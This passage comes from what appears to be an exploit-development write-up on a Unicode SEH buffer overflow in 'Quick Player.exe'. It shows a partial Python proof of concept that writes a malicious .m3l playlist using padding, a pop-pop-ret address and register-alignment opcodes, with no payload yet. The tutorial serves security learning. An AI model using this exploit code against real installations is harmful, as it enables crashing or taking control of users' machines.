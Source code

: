 # Alignments

From looking the register, it is seen that EAX seems intact:

![](/assets/img/Findings6/13.png)

This is great for alignments. The following steps to align such will be the same as in the previous posts regarding the same type of vulnerability, pushing the value of ESP to EAX and adding 100 to the latter. In addition, padding will be used for EIP to be aligned to EAX.

Current PoC:

```term
alignment = "\x54\x71" # push esp, padding
alignment += "\x58\x71" # push eax, padding

ret = "\x71\x41" + "\xF2\x41" # 0x004100f2 : pop esi # pop ebx # ret 0x04 | startnull,unicode {PAGE_EXECUTE_READWRITE} [Quick Player.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.3.0.0 (C:\Program Files\Quick Player\Quick Player.exe)

buffer = "A" * 536 + ret + "\x41\x71\x41\x71" + alignment + "C" * 200

f = open ("poc.m3l", "w")

f.write(buffer)

f.close()
```

Registers with the new poc:

![](/assets/img/Findings6/14.png)
